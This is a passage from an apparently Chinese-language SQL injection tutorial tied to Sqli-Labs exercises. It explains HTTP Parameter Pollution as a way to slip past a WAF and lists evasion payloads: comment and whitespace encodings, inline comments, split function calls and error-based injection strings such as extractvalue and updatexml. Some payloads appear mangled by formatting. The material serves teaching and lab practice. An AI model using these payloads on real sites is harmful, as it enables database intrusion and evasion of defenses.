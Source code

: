 重点：index.php?id=1&id=2，你猜猜到底是显示 id=1 的数据还是显示 id=2 的？ Explain：apache（php）解析最后一个参数，即显示 id=2 的内容。Tomcat（jsp）解析第 一个参数，即显示 id=1 的内容。<br />![](https://img-blog.csdnimg.cn/20200723152230982.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=aUTkv&originHeight=323&originWidth=911&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
以上图片为大多数服务器对于参数解析的介绍。

**问题**：index.jsp?id=1&id=2 请求，针对第一张图中的服务器配置情况， 客户端请求首先过 tomcat，tomcat 解析第一个参数，接下来 tomcat 去请求 apache（php） 服务器，apache 解析最后一个参数。那最终返回客户端的应该是哪个参数？

**Answer**：此处应该是 id=2 的内容，因为实际上提供服务的是 apache（php）服务器， 返回的数据也应该是 apache 处理的数据。而在我们实际应用中，也是有两层服务器的情况， 那为什么要这么做？是因为我们往往在 tomcat 服务器处做数据过滤和处理，功能类似为一 个 WAF。而正因为解析参数的不同，我们此处可以利用该原理绕过 WAF 的检测。该用法就 是 HPP（HTTP Parameter Pollution），http 参数污染攻击的一个应用。HPP 可对服务器和客户端都能够造成一定的威胁。

**练习地址：**[https://www.yuque.com/xmtxsec/blog/guysgs](https://www.yuque.com/xmtxsec/blog/guysgs)
Sqli-Labs-29 <br />Sqli-Labs-30<br />Sqli-Labs-31


### 3.2.4、规则层面的绕过

-  sql注释符绕过 
   1. union /_ _ /select 我们将union select之间的空格使用注释符进行替换（适用于对union select之间的空格进行检测的情况）
   2. union/crow%0%32#/select 我们在注释符中间填充内容<br />union/aaaaaaaaaabbbbbbbbbcccccccccccdddddddddddeeeeeeeeeeee%%%%%%%%%/select 构造较大数据
   3. /!union select/内联注释 我们使用内联注释，mysql特有
-  空白符绕过 
   1. mysql空白符：%09；%0A; %0B; %0D; %20; %0C; %A0; /XXX/
   2. 正则空白符： %09；%0A; %0B; %0D; %20;<br />%25其实就是百分号 %25A0 就是空白符
-  注释符绕过<br />//,-- , /**/, #, --+, -- -, ;,%00,

<br />**练习地址：**[https://www.yuque.com/xmtxsec/blog/guysgs](https://www.yuque.com/xmtxsec/blog/guysgs)
Sqli-Labs-26<br />Sqli-Labs-27<br />Sqli-Labs-27a<br />Sqli-Labs-28<br />Sqli-Labs-28a 


### 3.2.5、函数分割符号

- 将一个函数进行分割concat()
%25其实就是百分号 %25A0 就是空白符<br />concat%2520(<br />concat/**/(<br />concat%250c(<br />concat%25a0(


### 3.2.6、浮点数法

- waf对于id=1可以进行检测，但是对于id=1E0、id=1.0、id=\N可能就无法检测


### 3.2.7、利用error-based进行sql注入

- extractvalue(1, concat(0x5c,md5(3)));
- updatexml(1, concat(0x5d,md5(3)),1);
- GeometryCollection((selectfrom(selectfrom(select@@version)f)x))
- polygon((select*from(select name_const(version(),1))x))
- linestring()
- multipoint()
- multilinestring()
- multipolygon()
